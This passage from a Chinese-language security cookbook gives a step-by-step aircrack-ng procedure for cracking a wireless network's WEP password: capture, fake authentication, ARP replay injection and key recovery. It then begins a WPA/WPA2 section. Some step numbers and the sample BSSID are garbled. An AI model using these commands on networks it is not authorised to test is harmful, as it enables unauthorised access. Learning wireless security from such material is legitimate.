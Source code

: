 ```
airodump-ng wlan0 
```

7.  这会出现可用无线网络的列表。一旦你找到了你想要攻击的网络，按下`Ctrl + C`来停止搜索。选中`BSSID`列中的 MAC 地址，右击你的鼠标，并且选择复制。同时，把网络正在发送哪个频道的信号记录下载。你会在`Channel`列中找到这个信息。这里，这个频道是`10`。

8.  现在运行`airodump`，并且将所选`BSSID`的信息复制到文件中。我们会使用下列选项：

+   `-c`允许我们选择频道。这里我们选择`10`。

+   `-w`允许我们选择文件名称。这里我们选择`wirelessattack`。

+   `-bssid`允许我们选择我们的`BSSID`。这里，我们从剪贴板上粘贴`09:AC:90:AB:78`。

```
airodump-ng –c 10 –w wirelessattack --bssid 09:AC:90:AB:78 wlan0 
```

9.  新的窗口会打开，并展示这个命令的输出。保持这个窗口开着。

0.  打开另一个终端窗口，为了尝试组合它们，我们运行`aireplay`。它拥有下列语法：`aireplay-ng -1 0 –a [BSSID] –h [our chosen MAC address] –e [ESSID] [Interface]`。

```
aireplay-ng -1 0 -a 09:AC:90:AB:78 –h 00:11:22:33:44:55 –e backtrack wlan0
```

1.  下面，我们发送一些流量给路由器，便于捕获一些数据。我们再次使用`aireplay`，以下列格式：` aireplay-ng -3 –b [BSSID] – h [Our chosen MAC address] [Interface]`。

```
aireplay-ng -3 –b 09:AC:90:AB:78 –h 00:11:22:33:44:55 wlan0
```

2.  你的屏幕会开始被流量填满。将它运行一到两分钟，直到你拥有了用来执行破解的信息。

3.  最后我们运行 AirCrack 来破解 WEP 密码。

```
aircrack-ng –b 09:AC:90:AB:78 wirelessattack.cap 
```

这就结束了。

#### 工作原理

在这个秘籍中，我们使用了 AirCrack 套件来破解无线网络的 WEP 密码。AirCrack 是最流行的 WEP 破解工具之一。AirCrack 通过收集 WEP 无线连接的封包来工作，之后它会通过算术分析数据来破解 WEP 加密密码。我们通过启动 AirCrack 并选择我们想要的接口来开始。下面，我们修改了 MAC 地址，这允许我们修改互联网上的身份，之后使用`airodump`搜索可用的无线网络来攻击。一旦我们找到了打算攻击的网络，我们使用`aireplay`来将我们的机器与正在攻击的无线设备的 MAC 地址关联。我们最后收集到了一些流量，之后暴力破解生成的 CAP 文件来获得无线密码。

### 5.2 WPA/WPA2 无线网络破解

WPA（无线保护访问）于 2003 年诞生，并且为保护无线网络和取代过时的旧标准 WEP 而创建。WEP 被 WPA 以及之后的 WPA2 代替。由于存在更加安全的协议，WEP 很少使用了。

这个秘籍中，我们会使用 AirCrack 套件来破解 WPA 密码。 AirCrack 套件（或 AirCrack NG）是 WEP 和 WPA 密码破解程序，它抓取网络封包，分析它们，并使用这些数据破解 WPA 密码。

#### 准备
